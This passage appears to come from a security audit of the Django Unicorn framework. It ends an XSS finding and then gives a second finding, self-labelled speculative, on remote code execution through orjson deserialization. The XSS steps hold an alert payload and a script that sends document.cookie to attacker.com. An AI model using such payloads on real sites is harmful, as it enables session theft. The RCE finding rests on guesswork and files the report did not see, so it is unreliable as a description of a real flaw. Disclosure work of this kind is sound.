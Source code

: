     4. Open a browser and navigate to the view that includes the `xss-vulnerable` component.
    5. In the input field, enter the following payload: `<img src=x onerror=alert('XSS')>`
    6. Observe that an alert box with 'XSS' is displayed, indicating that the Javascript code from the input field was executed.
    7. Alternatively, try a payload that steals cookies and sends them to an attacker-controlled server: `<script>window.location='http://attacker.com/cookie?c='+document.cookie;</script>` and observe if the cookie is sent to `attacker.com`.

* Vulnerability Name: Potential Remote Code Execution (RCE) via Deserialization of Untrusted Data (Speculative)
* Description:
    1. Django Unicorn serializes component state and potentially other data using `orjson`.
    2. If there's a vulnerability in `orjson`'s deserialization process, or if Django Unicorn uses `orjson` in a way that allows for deserialization of untrusted data without proper validation, it might be possible for an attacker to craft a malicious payload.
    3. When the server deserializes this payload, it could lead to Remote Code Execution (RCE) if the deserialization process is exploited.
    4. This is a speculative vulnerability as no direct code path showing RCE via deserialization within Django Unicorn project is immediately apparent from the provided files, but it's a potential risk given the use of serialization and external libraries like `orjson`.
* Impact:
    *   **High** to **Critical** (depending on exploitability)
    *   Remote Code Execution (RCE) allows an attacker to execute arbitrary code on the server, potentially leading to full system compromise, data breach, and complete control over the application and server infrastructure.
* Vulnerability Rank: high
* Currently implemented mitigations:
    *   Django's SECRET_KEY is used for generating checksums, which aims to prevent tampering of component data.
    *   The project relies on `orjson` for serialization, which is generally considered to be a fast and secure JSON library.
* Missing mitigations:
    *   No explicit input validation or sanitization is observed for deserialized component data beyond checksum verification, which primarily ensures data integrity, not necessarily prevention of malicious deserialization.
    *   The documentation does not explicitly address deserialization security best practices.
    *   Reliance on external library `orjson` means vulnerabilities in `orjson` could directly impact Django Unicorn.
* Preconditions:
    *   A vulnerability exists in `orjson`'s deserialization process or how Django Unicorn utilizes it, allowing for code execution during deserialization.
    *   An attacker can manipulate or craft a malicious payload that gets deserialized by the Django Unicorn backend.
    *   The application is configured to use features that involve deserialization of component state or user-provided data.
* Source code analysis:
    1. `django_unicorn\serializer.py` (not provided in this file batch, but analyzed previously) uses `orjson.dumps` and `orjson.loads` for serialization and deserialization.
    2. `django_unicorn\views\__init__.py` (also not provided in this file batch, but analyzed previously) uses `loads(request.body)` to deserialize the request body. This body contains component data and action queues, which are then processed by the backend. The file `tests\views\message\test_call_method_multiple.py` and `tests\views\message\test_message.py` show examples of messages being sent and received as JSON.
    3. If an attacker can manipulate the `request.body` with a crafted payload that exploits a deserialization vulnerability in `orjson`, it might lead to RCE.
    4. While checksum verification (`generate_checksum` in `django_unicorn\utils.py`, not provided in this file batch, but analyzed previously and used in tests like `tests\views\message\test_call_method_multiple.py`) is in place to ensure data integrity and prevent tampering, it doesn't inherently prevent deserialization vulnerabilities if the vulnerability lies within the deserialization process itself.
    5. The code in `django_unicorn\serializer.py` and `django_unicorn\views\__init__.py` does not appear to have explicit checks to sanitize or validate the deserialized data for malicious content beyond type coercion in specific scenarios.